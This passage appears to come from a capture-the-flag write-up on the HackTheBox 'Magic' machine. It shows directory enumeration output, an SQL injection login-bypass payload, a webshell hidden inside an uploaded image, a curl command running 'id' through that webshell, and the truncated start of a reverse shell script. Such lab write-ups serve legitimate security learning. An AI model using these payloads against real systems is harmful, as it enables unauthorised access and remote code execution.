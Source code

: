 ## TCP/80 (HTTP)
- FFUF
	```
	200      GET       60l      207w     4053c http://10.10.10.185/index.php
	302      GET        0l        0w        0c http://10.10.10.185/logout.php => index.php
	403      GET        9l       28w      277c http://10.10.10.185/server-status
	200      GET      108l      217w     2136c http://10.10.10.185/assets/css/upload.css
	200      GET       27l       59w      782c http://10.10.10.185/assets/js/upload.js
	302      GET       84l      177w     2957c http://10.10.10.185/upload.php => login.php
	```
	- `upload.php`



# Initial Foothold

## TCP/80 (HTTP) - SQLi Authentication Bypass
1. Login page @ `http://magic.htb/login.php` is susceptible to SQLi Authentication Bypass
	```
	# Payload
	' OR 1=1 -- -
	```
	![]({{ page.img_path }}Pasted%20image%2020220926174355.png)
	> Redirected to an image upload page - `upload.php`
	{: .prompt-info}

## TCP/80 (HTTP) - File Upload Bypass
1. After some testing, the upload page has some sort of filter to prevent malicious files from being uploaded
	- `.php` - unable to upload
	- `.jpg, .png` - uploaded
	- Uploaded files go to `upload/images/<filename>`
2. However, the restrictions can be bypassed
	1. Upload any image file 
	2. Add a webshell payload into the middle 
	![]({{ page.img_path }}Pasted%20image%2020220926223237.png)
	3. Test our webshell
		```
		┌──(root💀kali)-[~/htb/magic/10.10.10.185/exploit]
		└─# curl -s "http://10.10.10.185/images/uploads/bingchilling.php.jpg?c=id" --output - | strings | grep www-data
		uid=33(www-data) gid=33(www-data) groups=33(www-data)
		```
	4. Create reverse shell payload
		```bash
		#!/bin/bash
		